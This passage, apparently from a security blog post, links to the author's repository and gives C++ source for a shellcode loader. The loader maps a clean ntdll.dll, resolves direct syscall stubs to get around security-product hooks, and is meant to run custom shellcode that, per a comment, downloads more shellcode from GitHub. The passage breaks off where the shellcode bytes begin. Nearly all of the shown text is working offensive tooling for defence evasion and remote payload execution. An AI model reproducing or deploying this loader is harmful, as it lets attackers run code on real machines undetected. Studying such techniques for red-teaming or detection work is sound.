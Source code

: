 I'm also including the assembly source code in the link as well:

[Assembly Code + Syscall and PIC shellcode loader - Source Code](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2025-8-23-Using%20Direct%20Syscalls%20with%20an%20In-Memory%20PIC%20Shellcode%20Loader)

```cpp
#include <windows.h>
#include <winternl.h>
#include <iostream>
#include "ManualNtdll.h"

// Typedefs for syscalls
typedef NTSTATUS(NTAPI* NtAllocateVirtualMemory_t)(
    HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);

typedef NTSTATUS(NTAPI* NtWriteVirtualMemory_t)(
    HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);

typedef NTSTATUS(NTAPI* NtCreateThreadEx_t)(
    PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID,
    ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);

int main() {
    ManualNtdll ntdll;
    if (!ntdll.LoadFromDisk(L"C:\\Windows\\System32\\ntdll.dll")) {
        std::cerr << "[-] Failed to load clean ntdll from disk.\n";
        return -1;
    }

    // Resolve NtAllocateVirtualMemory
    void* cleanNtAllocate = ntdll.GetProcAddress("NtAllocateVirtualMemory");
    void* cleanNtWrite = ntdll.GetProcAddress("NtWriteVirtualMemory");
    void* cleanNtCreate = ntdll.GetProcAddress("NtCreateThreadEx");

    if (!cleanNtAllocate || !cleanNtWrite || !cleanNtCreate) {
        std::cerr << "[-] Failed to find required syscall(s).\n";
        return -1;
    }

    auto pNtAllocate = (NtAllocateVirtualMemory_t)ntdll.ResolveSyscallStub(cleanNtAllocate);
    auto pNtWrite = (NtWriteVirtualMemory_t)ntdll.ResolveSyscallStub(cleanNtWrite);
    auto pNtCreate = (NtCreateThreadEx_t)ntdll.ResolveSyscallStub(cleanNtCreate);

    // shellcode that we custom made which uses the wininet InternetOpen "suite" to download shellcode from github
    unsigned char shellcode[] =
```